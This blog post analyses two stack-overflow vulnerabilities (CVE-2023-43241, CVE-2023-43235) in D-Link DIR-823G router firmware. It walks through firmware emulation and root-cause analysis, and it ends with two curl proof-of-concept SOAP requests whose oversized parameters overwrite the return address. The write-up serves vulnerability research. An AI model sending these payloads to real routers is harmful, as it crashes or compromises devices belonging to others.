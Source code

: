 ```yaml
---
title: "Dlink router CVEs"
classes: wide
header:
  teaser: /assets/images/vulnerability_research/CVE-2023-43241/command.png
ribbon: DodgerBlue
description: "Detailed analysis of multiple CVES that can lead to RCE in Dlink routers via stack overflow"
categories:
  - vulnerability  research
toc: true
---
```


# Summery

A Deep dive into CVE-2023-43241 CVE-2023-43235 which are a stack overflow in D-Link DIR-823G v1.0.2B05 router firmware, going to discuss extracting and emulating firmware and root cause analysis.

# Description

- CVE: CVE-2023-43241 , CVE-2023-43235

- Title: stack overflows in "D-Link DIR-823G v1.0.2B05" router firmware

- Platform / Vendor: Dlink/ router  

- Summary: D-Link DIR-823G v1.0.2B05 was discovered to contain a stack overflow via parameter TXPower and GuardInt in SetWLanRadioSecurity, StartTime and EndTime in SetWifiDownSettings.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/adv.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/adv1.png)

# Background story

The firmware is an operating system customized for an embedded device just with the capabilities that the device needs, this is to minimize size and raise the performance and you can imagine what else can be an advantage of this customization, in a lot of cases the firmware is based on Linux kernel, this kernel is customized and but inside the device chip, to get this firmware we have to options...

- Use any communication port on the chip to extract the firmware.

- The firmware is publicly accessible on the internet.

and to run it we have also two options...

- Use any communication port on the chip to get a shell on the device

- Emulate the firmware in an Emulation Application

Most firmware is compiled to run on `MIPS` architecture which can't run directly on our `x86` architecture, also Vmware and virtualbox can't used for that as they can't translate architecture-specific OPcode to another one, the most famous emulator that can do that is `qemu` which is translating machine code from architicure to another.

# Environment Setup

There is a Linux distro called [Attify OS](https://www.attify.com/attifyos) which is made specifically for firmware and hardware hacking It contains most of the tools we will need to be installed and configured, definitely you can install only the tools only you need for analyzing this vulnerability but this way will save you a lot of time troubleshooting.

Our firmware is publically available on "Dlink" site [here](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G) just download the version mentioned on the advisory and copy it to your investigation area.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/download.png)

Then go to `Firmware-analysis-toolkit` folder and run the following command...

```sh
./fat.py "your firmware image"
```

![Error](/assets/images/vulnerability_research/CVE-2023-43241/fat.png)

This will result in extracting the firmware, giving you an Image ID (we will need it later), and creating a network interface(this is your Router IP remember it).

Now just by pressing enter the emulated hardware will start booting up, just give it a minute to finish the boot process and navigate to the IP address mentioned before.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/wizard.png)

based on your preferred language use Google Translate for that, press skip, and log in with blank credentials. 

Now our Emulator is working perfectly fine, we need then to extract the file system to get the code and start looking for our vulnerability.

Go to "home/iot/tools/firmware-analysis-toolkit/firmadyne/scripts" and execute the script "mount.py" as root passing the Image ID mentioned before as a parameter.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/mount.png)

Then navigate to "/home/iot/tools/firmware-analysis-toolkit/firmadyne/scratch/1/image" and you are inside your firmware's filesystem.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/filesys.png)

# root cause analysis

`CVE-2023-43241`

The advisory description mentioned that the overflow is in TXPower and GuardInt parameters so we can search across the web interface files where they exist.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/txpower.png)

we can see that this parameter gets assigned in "Advwireless.html" page as part of the "setting" object, then set to "SetWLanRadioSettings" SOAP action and sent to "http://purenetworks.com/HNAP1/" end point.

Attify OS had burpsuit setup so we can open it, configure the browser to proxy traffic throw it, and intercept the traffic out of "Advwireless.html" page.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/proxy.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/advwireless.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/param.png)

Then this request gets handled by "goahead" binary 

![Error](/assets/images/vulnerability_research/CVE-2023-43241/go.png)

but how the request is handled is the cause of the problem.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/tx.png)

It gets the data inside "TXPower" which is attacker-controlled then calculates its size which means it's also attacker-controlled then copies in a fixed size buffer whatever size of data the attacker supplies so we can overflow the buffer and corrupt the memory.

also for "GuardInt".

![Error](/assets/images/vulnerability_research/CVE-2023-43241/guard.png)

`CVE-2023-43235`

The same concept exactly applies to the StartTime and EndTime parameters.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/time.png)

# Reproducing the vulnerability

*CVE-2023-43235*

################### video here #######################

we can see that we can overwrite the return address "ra"

![Error](/assets/images/vulnerability_research/CVE-2023-43241/crash.png)

*CVE-2023-43241*

################### video here ##########################

![Error](/assets/images/vulnerability_research/CVE-2023-43241/crash2.png)

# POC

*CVE-2023-43235*

```sh
curl http://192.168.0.1/HNAP1/ -H 'SOAPAction: "http://192.168.0.1/HNAP1/SetWLanRadioSecurity"' -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWLanRadioSecurity xmlns="http://192.168.0.1/HNAP1/"><SetMultipleActions><SetWLanRadioSecurity><RadioID>1</RadioID><Radio>1</Radio><TXPower>######A100#####</TXPower><SSID>1</SSID><SSIDBroadcast>1</SSIDBroadcast><ChannelWidth>1</ChannelWidth><Key>1</Key><GuardInt>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa</GuardInt></SetWLanRadioSecurity></SetMultipleActions></SetWLanRadioSecurity></soap:Body></soap:Envelope>'
```

*CVE-2023-43241*
```sh
curl  "http://192.168.0.1/HNAP1/"  -H 'SOAPAction: "http://purenetworks.com/HNAP1/SetWifiDownSettings"' -H "Cookie: timeout=132" -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWifiDownSettings xmlns="http://purenetworks.com/HNAP1/"><ControlMode>true</ControlMode><ControlRule><Enable>true</Enable><StartTime>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaaa</StartTime><EndTime>23:59:00</EndTime><Week>Mon,Wed</Week></ControlRule></SetWifiDownSettings></soap:Body></soap:Envelope>'
```

# References

[https://nvd.nist.gov/vuln/detail/CVE-2023-43241](https://nvd.nist.gov/vuln/detail/CVE-2023-43241)

[https://nvd.nist.gov/vuln/detail/CVE-2023-43235](https://nvd.nist.gov/vuln/detail/CVE-2023-43235)